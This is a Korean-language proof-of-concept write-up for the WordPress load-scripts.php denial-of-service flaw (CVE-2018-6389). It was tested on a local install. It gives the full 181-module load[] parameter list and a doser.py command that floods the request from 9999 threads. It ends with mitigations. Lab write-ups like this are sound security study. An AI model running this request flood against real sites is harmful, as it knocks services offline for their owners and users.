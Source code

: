 #+TITLE: CVE-2018-6389 POC
#+AUTHOR: jwmoon

* 취약점 개요
- 서버 CPU에 부담을 주는 타입의 Dos 공격
- 본래 성능을 위한 기능인 load-scripts.php, load-styles.php 의 취약점을 악용함
- wp-login.php 에도 해당 기능이 들어가 있으므로 인증 없이 공격이 가능하다. 
  (만약 wp-login.php 페이지에 접근 제한이 걸려있으면 공격이 불가능할 것임)
- 이 페이지에서는 실제로 공격이 가능한지 검증해 보고자 한다.

* POC 개요
** 해킹 환경
- 예전에 설치해두었던 워드 프레스를 활용한다.

** 대상 URL
- http:/localhost/wordpress/wp-admin/load-scripts.php

* POC 진행
** load-scripts 구동여부 체크
http:/localhost/wordpress/wp-admin/load-scripts.php?c=1&load%5B%5D=jquery-ui-core&ver=4.9.1 를 요청해본다.

설명글에서처럼 jQuery UI 의 js코드를 출력해주는 것을 볼 수 있다. 이 것으로 load-scripts.php가 구동중인 것을 확인하였다.

[[./img/load-script-test.png]]


** script-loader.php 체크
script-loader.php에는 각종 스크립트를 로드하기 위한 코드가 있는 것을 확인하였다.
[[./img/script-loader-content.png]]

** load[] 파라메터에 로드 가능한 모든 스크립트를 지정
script-loader.php에 적혀있는 다음 181개의 모듈을 load[]파라메터에 지정한다. 

#+BEGIN_SRC bash
eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter
#+END_SRC

결과는 다음과 같다. 정상적으로 서버에서 처리된 것을 알 수 있다. 2.2 초 걸렸다는 설명글과는 달리 1초 이내로 서버측에서 회신이 왔다. 이 것은 해킹 환경이 로컬환경이라서 네트워크 부하만큼의 시간이 추가되지 않은 것으로 보인다.

[[./img/script-load-all-result.png]]


** doser.py 를 사용해서 다량의 동일한 요청을 보내기
동일한 요청을 엄청나게 많이 보내면 어떻게 될까? 최초 보고자가 제공한 doser.py 를 사용해서 테스트를 해보겠다.

아래의 명령은 동일한 GET 요청을 9999개의 스레드로 실행하는 명령이다.

#+BEGIN_SRC bash 
python doser.py -g '공격URL' -t 9999
#+END_SRC

결과는 다음과 같다. 

[[./img/attack-result.png]]

[[./img/attack-result-2.png]]

서버측의 상태를 정리하면 다음과 같다. 
- 서버측 CPU 사용량이 거의 100% 가깝게 올라가있는 상태가 지속된다. (정상적인 운영이 어려운 정도)
- 요청을 처리하기 위한 apache2 프로세스가 엄청나게 늘어난다. 
- access 로그(/var/log/apache2/access.log)의 용량이 갑자기 수메가바이트 늘어난다.

여기까지의 POC를 통해 실제로 DOS공격이 가능한 것을 확인하였다. 

* 대응 방법
워드프레스 개발팀은 이 취약점을 대응하지 않겠다고 했다. 

현재까지 알려진 대응방법은 

1) 워프프레스에서 load 모듈의 사용을 막는 유저 패치 적용

2) 아파치에서 동시 요청 제한 

이다. 다음 글에서는 이 대응 방법에 대해서 검증해보겠다. 



* Ref
- 최초 보고자의 설명글 : https://baraktawily.blogspot.jp/2018/02/how-to-dos-29-of-world-wide-websites.html

